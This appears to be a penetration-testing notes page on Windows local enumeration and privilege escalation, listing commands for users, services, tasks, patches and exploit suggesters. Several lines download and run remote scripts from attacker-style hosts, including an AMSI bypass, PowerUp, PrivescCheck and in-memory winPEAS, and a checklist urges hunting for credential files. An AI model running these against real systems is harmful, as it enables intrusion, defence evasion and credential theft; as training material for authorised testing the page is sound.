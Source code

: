 # Local Enumeration

{% code overflow="wrap" %}
```powershell
# Check current username and their privileges
whoami
whoami /priv

# System Information 
sysinfo

# List disks
fsutil fsinfo drives

# Enumerate unmounted disk
mountvol 

# check users 
net user
net user /doamin 
net group 
net group /domain

# show info on a particular user
net user <username>

# hostname
hostname

# AMSI bypass
> powershell
PS> IEX (new-Object Net.WebClient).DownloadString('http://20.0.0.200/privesc/amsi.txt')
PS> IEX (new-Object Net.WebClient).DownloadString('http://20.0.0.200/privesc/my-am-bypass.ps1')

# WinPEAS in disk
./winPEASAny.exe

# WinPEAS on memory
PS> $url = "http://10.10.14.16/privesc/winPEASany.exe" 
PS> $wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

# List running services
net start
sc query
wmic service get
wmic service get Caption,Name,PathName,ServiceType,Started,StartMode,StartName


sc qc <service name>
sq query <service name> 

# List running processes 
tasklist /SVC
wmic process

# List all running process by Administrator
tasklist /fi "USERNAME eq NT AUTHORITY\SYSTEM" 
tasklist /fi "USERNAME eq NT AUTHORITY\SYSTEM" /fi "STATUS eq running"

# Check all listening ports
netstat -ano

# Scheduled Tasks 
schtasks /query /fo LIST /v > log.txt
cat log.txt | grep "admin \|Task To Run"  
schtasks /run /tn "taskname"

# List scheduled tasks only for a current user context. You need to be SYSTEM to see all tasks.
Get-ScheduledTask

# Powrshell to organize the information
Get-ScheduledTask -TaskPath "\" |
    ForEach-Object { [pscustomobject]@{
     Server = $env:COMPUTERNAME
     Name = $_.TaskName
     Path = $_.TaskPath
     Description = $_.Description
     Author = $_.Author
     RunAsUser = $_.Principal.userid
     LastRunTime = $(($_ | Get-ScheduledTaskInfo).LastRunTime)
     LastResult = $(($_ | Get-ScheduledTaskInfo).LastTaskResult)
     NextRun = $(($_ | Get-ScheduledTaskInfo).NextRunTime)
     Status = $_.State
     Command = $_.Actions.execute
     Arguments = $_.Actions.Arguments }}

# Patch Info
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Run PrivescCheck.ps1
> powershell 
PS> iex (new-Object Net.WebClient).DownloadString('http://10.10.14.127/privesc/PrivescCheck.ps1');Invoke-PrivescCheck -Extended

# Run PowerUp.ps1
PS>iex (new-Object Net.WebClient).DownloadString('http://192.168.49.124/privesc/PowerUp.ps1')|Import-Module PowerUp.ps1
PS>Invoke-AllChecks

# Run Windows Exploit Suggester NG
# Obtain systeminfo.txt from a Target machine

./wes.py --update
./wes.py systeminfo.txt -e # only known exploit 
./wes.py systeminfo.txt # all vulnerabilities 
```
{% endcode %}

### Metasploit - local exploit suggester

Check [Metasploit - local exploit suggeste](../../metasploit/local-exploit-suggester.md)r section.&#x20;

### Windows exploit suggester

```powershell
# Windows Terminal
systeminfo -> systeminfo.txt

# copy systeminfo.txt \\10.10.14.16\smb\

#Kali Terminal
cd /opt/privesc
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git

pip2 install xlrd --upgrade
(pip install xlrd --upgrade) 

cp systeminfo.txt /opt/privesc/win/Windows-Exploit-Suggester/

./windows-exploit-suggester.py --update

./windows-exploit-suggester.py --database <speadsheet>.xls --systeminfo <systeminfo.txt>

#If you have unspported excel format, please try the following commands: 

pip2 uninstall xlrd
pip2 install xlrd==1.2.0

```



### Some Checklists

* Do not forget enumerating all files in your first login directory!
* Do not forget enumerating all accessible files in C:/ directory!
* Do not forget enumerating all password files (_pass_, creds) in first login directory.
* Do not depend on winPEASAny.exe and PowerUP.ps tools to download and run them.
* Check Program Files, Program Files (86), and Program Data directories.&#x20;

